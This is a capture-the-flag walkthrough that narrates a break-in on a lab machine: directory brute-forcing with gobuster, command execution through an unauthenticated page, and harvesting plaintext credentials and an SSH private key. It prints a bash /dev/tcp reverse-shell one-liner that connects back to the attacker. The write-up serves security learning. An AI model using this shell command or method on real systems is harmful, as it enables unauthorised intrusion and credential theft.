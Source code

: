 ## Description

![image](https://user-images.githubusercontent.com/78603128/119040663-43719300-b9e8-11eb-93b9-9084d21a8b85.png)

## Hands on

First , we slap the ip into our browser to check if port 80(common web server) is up and yes it is !

![image](https://user-images.githubusercontent.com/78603128/119142345-fa1d5400-ba78-11eb-97a9-5e0b27c4618e.png)

look like a credential is required

lets try <a href="https://tools.kali.org/web-applications/gobuster">gobuster(CLI)/dirbuster(GUI)</a> to brute force the web directory for hidden files
![image](https://user-images.githubusercontent.com/78603128/119142807-7879f600-ba79-11eb-8cc8-0236aca6441f.png)
(Note : <br/>
dir specify brute force the directory <br/>
-u specify the web browser url<br/>
-w specify the dictionary path for the attack<br/>
-t specify how many thread to be used for the attack<br/> 
-o specify output file name)<br/>

and we found the hidden directory named :

"home.php" 

![image](https://user-images.githubusercontent.com/78603128/119143134-d8709c80-ba79-11eb-85fb-d91fe7fb960f.png)

guess what ? who need credentials when you can access the page without one ?

"validate.php" , Look like incorrect credentials goes here

![image](https://user-images.githubusercontent.com/78603128/119142989-b37c2980-ba79-11eb-82ae-a0ab52a03f25.png)

Moving on , we can check if the machine is linux by using  "uname -a" command

![image](https://user-images.githubusercontent.com/78603128/119144800-98121e00-ba7b-11eb-87be-10057beb2d04.png)

and yess , now slap reverse shell command into the input <br/>
![image](https://user-images.githubusercontent.com/78603128/119146838-9cd7d180-ba7d-11eb-8f00-ffd68cb68676.png)

```
 bash -c 'exec bash -i &>/dev/tcp/$YOUR IP/$PORT <&1'
 
```
<br/>
remember to start a listener on the port you input
<br/>
<br/>

And within few seconds , we will get a reverse shell and able to run as "www-data" !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119147026-cabd1600-ba7d-11eb-88cc-a69eadb0ac62.png)

<br/>
now we search for the key , key_rey_key seems sus and by trying strings command we found the key
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148594-38b60d00-ba7f-11eb-8a24-17a264bc10d0.png)

<br/>
and we are lucky to found the user credentials in plain text inside the "validate.php" code
<br/>

![image](https://user-images.githubusercontent.com/78603128/119148927-92b6d280-ba7f-11eb-8a86-b8d60f193eff.png)

switch user to charlie and we got the flag , oh yeah.. you cant switch user here..
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149250-ede8c500-ba7f-11eb-94b8-21823441721b.png)

looking around charlie directory , we found RSA private and public key to login via SSH !
<br/>

![image](https://user-images.githubusercontent.com/78603128/119149549-36a07e00-ba80-11eb-9cd8-c3f5e9b77a83.png)






